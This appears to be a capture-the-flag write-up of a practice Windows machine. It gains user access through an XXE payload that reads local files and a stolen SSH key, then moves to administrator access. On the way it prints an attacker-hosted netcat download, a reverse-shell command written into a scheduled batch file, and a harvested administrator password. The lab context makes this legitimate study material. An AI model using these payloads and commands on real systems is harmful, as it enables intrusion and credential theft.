





# Introduction

XML External Entities (XXE or XEE) are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are build in to the specification of the XML language. For example, the entities &lg; and &gt; represent the characters < and >. These are are metacharacters used to denote XML tags, and so must generally bo represented using their entities when they appear within data. Read this [link](https://portswigger.net/web-security/xxe/xml-entities).


The vulnerability comes into play when a misconfiguration exists in the XML parser on the server's side. See [OWASP definition of XXE Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

# Enumeration

As usual, start with nmap with the following flags:
```shell
-sC : Equivalent to --script=default
-A : Enable OS detection, version detection, script scanning, and traceroute
-Pn : Treat all hosts as online -- skip host discovery
```

Result:
```shell
└──╼ $nmap -sC -A -Pn $SERVERIP -o enumeration/nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 19:50 CEST
Nmap scan report for 10.129.95.192
Host is up (0.032s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.09 seconds
```


Open browser http://10.129.95.192 and access to login page:



After try some user/pass, we login with admin:password, let's go to order page:


Lets intercept submit buton with burpsuite:



Searching for a XML exploitation cheatsheet we are met with several examples such as the [following](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity). 

Send POST to repeater and add/change the following content:
```HTML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```

Voilà:


# Foothold

If we check sorce code from : view-source:http://10.129.95.192/services.php we can see "Modified by Daniel" on it:

```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Goods & Services</title>
        <!-- Modified by Daniel : UI-Fix-9092-->
        <style>
            <
            link href
```

Get id_rsa file from daneil user: 


Lets login to server:
```bash
└──╼ $vi id_rsa
└──╼ $chmod 400 id_rsa 
└──╼ $ssh -i id_rsa daniel@$SERVERIP

Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>
daniel@MARKUP C:\Users\daniel>cd Desktop 

daniel@MARKUP C:\Users\daniel\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of C:\Users\daniel\Desktop

03/05/2020  07:18 AM    <DIR>          .
03/05/2020  07:18 AM    <DIR>          ..
03/05/2020  07:18 AM                35 user.txt    
               1 File(s)             35 bytes      
               2 Dir(s)   7,388,643,328 bytes free 

daniel@MARKUP C:\Users\daniel\Desktop>type user.txt 
032d2fc8952a8c24e39c8f0ee9918ef7       

daniel@MARKUP C:\Users\daniel\Desktop> 
```

# Privilege Escalation
Lets check current privilegies:
```shell
daniel@MARKUP C:\Users\daniel\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

daniel@MARKUP C:\Users\daniel\Desktop>

```
Lets explore the file system in hopes of discover any uncommon files or folders that we could use to:
```shell
daniel@MARKUP C:\Users\daniel\Desktop>cd C:\ 

daniel@MARKUP C:\>dir 
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of C:\

03/12/2020  03:56 AM    <DIR>          Log-Management 
09/15/2018  12:12 AM    <DIR>          PerfLogs
07/28/2021  02:01 AM    <DIR>          Program Files
09/15/2018  12:21 AM    <DIR>          Program Files (x86)
07/28/2021  03:38 AM                 0 Recovery.txt
03/05/2020  05:40 AM    <DIR>          Users
07/28/2021  02:16 AM    <DIR>          Windows
03/05/2020  10:15 AM    <DIR>          xampp
               1 File(s)              0 bytes
               7 Dir(s)   7,388,610,560 bytes free

daniel@MARKUP C:\>cd Log-Management 

daniel@MARKUP C:\Log-Management>dir 
 Volume in drive C has no label. 
 Volume Serial Number is BA76-B4E3

 Directory of C:\Log-Management

03/12/2020  03:56 AM    <DIR>          .
03/12/2020  03:56 AM    <DIR>          ..
03/06/2020  02:42 AM               346 job.bat
               1 File(s)            346 bytes
               2 Dir(s)   7,388,610,560 bytes free

daniel@MARKUP C:\Log-Management>type job.bat 
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
daniel@MARKUP C:\Log-Management>

```

The purpose of job.bat seems to be related to clearing logfiles, and it can only be run with an Administrator account. There is also mention of an executable named wevtutil , which upon furtherinvestigation is determined to be a Windows command that has the ability to retrieve information aboutevent logs and publishers. It can also install and uninstall event manifests, run queries and export, archive
and clear logs. We now understand the use of it in this case, alongside the el and cl parameters fund in
the job.bat file.
Since the file itself can only be run by an Administrator, we could try our luck and see if our usergroup couldat least edit the file, instead of running it, or if there are any mismatched permissions between the scriptand the usergroup or file configuration. We can achieve this by using the icacls command.

Before then, we need to check if the wevtutil process mentioned in the job.bat file is running. We can
see the currently scheduled tasks by typing the schtasks command. If our permission level doesn't allow
us to view this list through Windows' command line, we can quickly use powershell's ps command instead,
which represents another security misconfiguration that works against the server.

```shell
PS C:\Log-Management> ps | findstr wevtutil
     84       5      936       4036              3488   1 wevtutil                                                                                                                            
PS C:\Log-Management> ps | findstr wevtutil
     75       5      924       3700              4660   1 wevtutil                                                                                                                            
PS C:\Log-Management> ps | findstr wevtutil
     84       5      940       3980              3404   1 wevtutil                                                                                                                            
PS C:\Log-Management> ps | findstr wevtutil
PS C:\Log-Management> 

```

Lets copy nc to server:
On local computer:
```shell
──╼ $wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
--2022-09-05 21:46:22--  https://github.com/int0x33/nc.exe/blob/master/nc64.exe
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘nc64.exe’

nc64.exe                                            [ <=>                                                                                                  ] 129,00K  --.-KB/s    in 0,1s    

2022-09-05 21:46:23 (1,29 MB/s) - ‘nc64.exe’ saved [132099]

└──╼ $sudo python3 -m http.server 80
[sudo] password for darthv: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
----------------------------------------
10.129.95.192 - - [05/Sep/2022 21:48:20] "GET /nc64.exe HTTP/1.1" 200 -

└──╼ $sudo nc -lvnp 1234
listening on [any] 1234 ...

```

On server side: 
```shell
PS C:\Log-Management> wget http://10.10.14.104/nc64.exe -outfile nc64.exe
PS C:\Log-Management> 
S C:\Log-Management> exit

daniel@MARKUP C:\Log-Management>dir 
 Volume in drive C has no label. 
 Volume Serial Number is BA76-B4E3

 Directory of C:\Log-Management

09/05/2022  12:48 PM    <DIR>          .
09/05/2022  12:48 PM    <DIR>          ..
09/05/2022  12:56 PM                 0 job.bat
09/05/2022  12:48 PM           132,099 nc64.exe
               2 File(s)        132,099 bytes
               2 Dir(s)   7,391,219,712 bytes free

daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.104 1234 > C:\Log-Management\job.bat 

daniel@MARKUP C:\Log-Management>
```

We have tryed server times, but job.bat is overwriting everytime and never execute nc session, so we chose to search another way.
Upload [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe) following the same procedure we used with nc64.exe and execute winpeasx64.exe from powershell. Winpeasx64 report to us Administrator credentials, so, voilà:

```shell
+----------¦ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Administrator
    DefaultPassword               :  Yhk}QE&j<3M
```

Lets login and get the flag:
```shell
└──╼ $ssh Administrator@10.129.95.192
Administrator@10.129.95.192's password: 

Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@MARKUP C:\Users\Administrator>cd Desktop 

administrator@MARKUP C:\Users\Administrator\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of C:\Users\Administrator\Desktop

03/05/2020  07:33 AM    <DIR>          .
03/05/2020  07:33 AM    <DIR>          ..
03/05/2020  07:33 AM                70 root.txt      
               1 File(s)             70 bytes        
               2 Dir(s)   7,389,548,544 bytes free   

administrator@MARKUP C:\Users\Administrator\Desktop>type root.txt 
f574a3e7650cebd8c39784299cb570f8

administrator@MARKUP C:\Users\Administrator\Desktop> 
```

